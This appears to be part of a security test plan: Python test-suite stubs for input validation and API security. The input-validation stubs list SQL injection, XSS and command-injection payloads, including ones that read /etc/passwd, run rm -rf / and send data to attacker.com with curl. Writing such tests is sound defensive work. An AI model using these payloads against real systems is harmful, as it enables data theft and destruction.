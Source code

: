 #### **7.1.2 Input Validation Tests**
```python
class InputValidationTestSuite:
    """Comprehensive input validation testing"""
    
    def test_sql_injection_prevention(self):
        """Test SQL injection attack vectors"""
        payloads = [
            "'; DROP TABLE users; --",
            "' UNION SELECT password FROM admin_users --",
            "'; INSERT INTO users VALUES ('hacker', 'password'); --"
        ]
        
    def test_xss_prevention(self):
        """Test XSS attack prevention"""
        payloads = [
            "<script>alert('XSS')</script>",
            "javascript:alert('XSS')",
            "<img src=x onerror=alert('XSS')>"
        ]
        
    def test_command_injection_prevention(self):
        """Test command injection prevention"""
        payloads = [
            "; cat /etc/passwd",
            "| rm -rf /",
            "&& curl attacker.com/steal-data"
        ]
```

#### **7.1.3 API Security Tests**
```python
class APISecurityTestSuite:
    """API-specific security testing"""
    
    def test_rate_limiting(self):
        """Test rate limiting effectiveness"""
        # Test burst requests
        # Test distributed attacks
        # Test rate limit bypass techniques
        
    def test_cors_configuration(self):
        """Test CORS security"""
        # Test origin validation
        # Test preflight request handling
        # Test credential handling
        
    def test_api_versioning_security(self):
        """Test API version security"""
        # Test deprecated endpoint access
        # Test version enumeration
        # Test backward compatibility issues
```
